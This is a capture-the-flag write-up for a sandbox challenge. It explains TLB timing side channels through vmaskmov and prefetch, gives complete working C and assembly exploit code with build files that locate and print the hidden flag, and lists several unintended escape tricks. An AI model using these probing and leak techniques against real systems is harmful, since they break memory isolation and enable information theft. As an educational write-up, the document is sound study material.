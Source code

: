 `
This is a perfect sandbox with absolutely no way to leak the flag!
You should probably read https://arxiv.org/pdf/2304.07940.pdf or https://gruss.cc/files/prefetch.pdf.
`;

## Provided files
- chal.c
- chal
- Dockerfile

## Intended

The papers provided in the description implement two different attack that use the same premise.

On x64 processors, physical memory is mapped to virtual memory using a page table. The page table specifies how physical memory is mapped to virtual memory and stores the page permission bits and other information.

See more about paging [here](https://wiki.osdev.org/Paging#64-Bit_Paging).

When a virtual memory address is accessed, the processor must walk the page table in order to determine the physical address to access, which takes some time in order to perform. The processor employs a translation lookaside buffer (TLB) to aggressively cache recent virtual to physical memory mappings to reduce the performance impact of translating virtual to physical addresses. However one can perform a sidechannel attack against the TLB by accessing memory and timing how long it takes to access. A fast access indicates the address is cached in the TLB, and a slow access indicates the address is not cached in the TLB. The problem with this is that one cannot go around arbitrarily accessing every memory address, as you will eventually run into a SEGFAULT and die. You can setup a SIGSEGV handler to catch the crash, but that messes up the timings because control first hands over to the kernel and then the signal handler. Fortunately there are a few instructions that do not fault when accessing an address, and still generate a memory lookup and TLB access. These instructions are `vmaskmov` (first paper) and `prefetch` (second paper) family of instructions.

[vmaskmov](https://www.felixcloutier.com/x86/vmaskmov)

[prefetch](https://www.felixcloutier.com/x86/prefetchh)

The documentation for `vmaskmov` states that:

Faults occur only due to mask-bit required memory accesses that caused the faults. Faults will not occur due to referencing any memory location if the corresponding mask bit for that memory location is 0. For example, no faults will be detected if the mask bits are all zero.


Using this our attack looks like this:
```x86asm noheader
vpxor ymm0, ymm0, ymm0
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
mov rcx, rax
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
sub rax, rcx
```

1. setup zero mask in ymm0
2. access the victim address, which caches it in the tlb if it is valid
3. use fences to prevent speculative execution from messing with timings
4. time the access of vmaskmovps

Using this we can determine which memory addresses are readable and only access those addresses to look for the flag.

```c filename="main.c"
typedef unsigned long long u64;

void putchar (char ch) {
    asm volatile(
        ".intel_syntax noprefix\n"
        "mov eax, 1\n"
        "mov edi, 1\n"
        "mov rsi, %[buf]\n"
        "mov rdx, 1\n"
        "syscall\n"
        ".att_syntax prefix\n"
        :: [buf] "r" (&ch)
        : "rax", "rdi", "rsi", "rdx", "rcx", "r11"
    );
}

void puts (char * s) {
    while (*s != 0) {
        putchar(*s);
        s++;
    }
    putchar('\n');
}

void exit(int code) {
    asm volatile(
        "mov $60, %%eax\n"
        "syscall\n"
        :: [code] "rdi" (code)
    );
}

int probe(void * addr) {
    u64 tic_hi, tic_lo, toc_hi, toc_lo;
    asm volatile(
        ".intel_syntax noprefix\n"
        "vpxor ymm0, ymm0, ymm0\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[hi], rdx\n"
        "mov %[lo], rax\n"
        "mfence\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[thi], rdx\n"
        "mov %[tlo], rax\n"
        ".att_syntax prefix\n"
        : [hi] "=r" (tic_hi),
          [lo] "=r" (tic_lo),
          [thi] "=r" (toc_hi),
          [tlo] "=r" (toc_lo)
        : [ptr] "r" (addr)
        : "ymm0", "rdx", "rax"
    );
    return ((toc_hi << 32) + toc_lo) - ((tic_hi << 32) + tic_lo);
}

// we put the main function into the `.entry` section
// and use custom linker script in order to guarantee
// main is run first in the flat binary
void __attribute__((section(".entry"))) main () {
    u64 base = 0x1337000;

    while (base < 0x1337000 + 0x100000000) {
        int access = probe(base);
        if (access < 140) {
            puts("FOUND");
            puts((char *)base);
            putchar('\n');
        }
        base += 0x1000;
    }
}
```

```text filename="linker.ld"
ENTRY(main)

SECTIONS {
    /* here we place `.entry` as the first section */
    .entry  : { *(.entry) }
    /* . = .; forces the linker to keep ordering */
    . = .;
    .text   : { *(.text.*) }
    .rodata : { *(.rodata.*) }
    .data   : { *(.data.*) }
    .bss    : { *(.bss.*) }
}
```

```make filename="Makefile"
all:
	gcc \
	-o main \
	-nostdlib -nostartfiles -nostdinc \
	-fno-builtin -fno-stack-protector \
	-ffreestanding -pie \
	-Wl,--oformat=binary -Wl,-T,linker.ld \
	main.c
```

## Unintended

### Accidentally compiled with -no-pie
I copypasted my build script from another chal that used `-no-pie`, so the binary base was fixed and you could leak the libc to retrieve the stack address. Once you know where the stack is you could retrieve the flag address.

### Bruteforce
The `write` syscall does not complain about being fed invalid memory address, and simply returns an error. One person simply called write on every memory address starting from `0x1337000` at `0x1000` increments.

### `syscall` oracle
It is also possible to test whether or not an address is readable via the write syscall, can write on each address and inspect the return value. If the value indicates an error, unmapped address, otherwise should be readable.

### `%fs` register
The libc stores a pointer to thread local storage (TLS) in the fs register. The TLS section exists at a fixed offset from the libc, so accessing this register gives a libc leak, then you can walk the stack and get the flag. You can view the fs register in gdb with `p $fs_base`.

### Reading the urandom value
I stored the urandom value inside a mmapped chunk so that I could unmap it later and make it unaccessible. But I forgot to unmap it :skull:. You could retrieve the address through bruteforce or via the stack. Somebody submitted a ticket where they used a constant offset from the mmapped code to access the urandom value, but I could not reproduce on remote.